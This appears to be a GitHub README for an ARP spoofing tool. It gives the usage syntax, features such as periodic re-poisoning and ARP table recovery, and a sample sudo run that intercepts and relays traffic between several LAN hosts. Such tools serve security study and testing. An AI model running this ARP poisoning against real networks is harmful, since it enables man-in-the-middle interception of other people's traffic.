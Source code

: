 arp-spoof
=====

syntax : arp-spoof \<interface\> \<sender ip\> \<target ip\> \[\<sender ip 2\> \<target ip 2\> ...\]  
sample : arp-spoof wlan0 192.168.10.2 192.168.10.1

## Features
- Re-infection in every 5-second time interval  
- ARP table recovery at program termination (press Ctrl+C to exit) 

## Example
$ sudo ./arp-spoof eth0 192.168.0.2 192.168.0.1 192.168.0.1 192.168.0.2 192.168.0.4 192.168.0.1 192.168.0.1 192.168.0.4 

myMac: AA:AA:AA:AA:AA:AA  
myIp: 192.168.0.9  
   
Targets  
Sender0 - Ip: 192.168.0.2, Mac: BB:BB:BB:BB:BB:BB  
Target0 - Ip: 192.168.0.1, Mac: DD:DD:DD:DD:DD:DD   
  
Sender1 - Ip: 192.168.0.1, Mac: DD:DD:DD:DD:DD:DD   
Target1 - Ip: 192.168.0.2, Mac: BB:BB:BB:BB:BB:BB   
  
Sender2 - Ip: 192.168.0.4, Mac: CC:CC:CC:CC:CC:CC   
Target2 - Ip: 192.168.0.1, Mac: DD:DD:DD:DD:DD:DD
  
Sender3 - Ip: 192.168.0.1, Mac: DD:DD:DD:DD:DD:DD  
Target3 - Ip: 192.168.0.4, Mac: CC:CC:CC:CC:CC:CC 

Relaying 98 bytes packet: sender3 - 192.168.0.1 => target3 - 192.168.0.4  
Relaying 98 bytes packet: sender0 - 192.168.0.2 => target0 - 192.168.0.1  
Relaying 98 bytes packet: sender0 - 192.168.0.2 => target0 - 192.168.0.1  
Relaying 98 bytes packet: sender0 - 192.168.0.2 => target0 - 192.168.0.1  
Relaying 98 bytes packet: sender2 - 192.168.0.4 => target2 - 192.168.0.1  
Reinfecting Targets  
Relaying 98 bytes packet: sender0 - 192.168.0.2 => target0 - 192.168.0.1  
Relaying 98 bytes packet: sender0 - 192.168.0.2 => target0 - 192.168.0.1  
Relaying 98 bytes packet: sender1 - 192.168.0.1 => target1 - 192.168.0.2   

^CRecovering Target ARP table   
Terminating Program  
